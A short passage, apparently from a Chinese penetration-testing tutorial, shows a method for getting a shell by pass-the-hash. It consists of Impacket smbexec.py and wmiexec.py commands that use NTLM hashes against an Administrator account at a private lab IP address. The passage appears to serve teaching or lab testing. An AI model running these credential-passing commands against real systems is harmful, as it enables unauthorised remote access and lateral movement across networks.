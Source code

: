[![](assets/1706958938-db4066c583af6b7b2016f3432f4ec51b.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307744-1507419811.png)

#### 法三：凭据传递脚本获取 shell

```bash
①smbexec.py
python smbexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10

②wmiexec.py
python wmiexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10
```

[![](assets/1706958938-83cdcd001be0a9854d133897b0d08548.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172308890-1103653495.png)
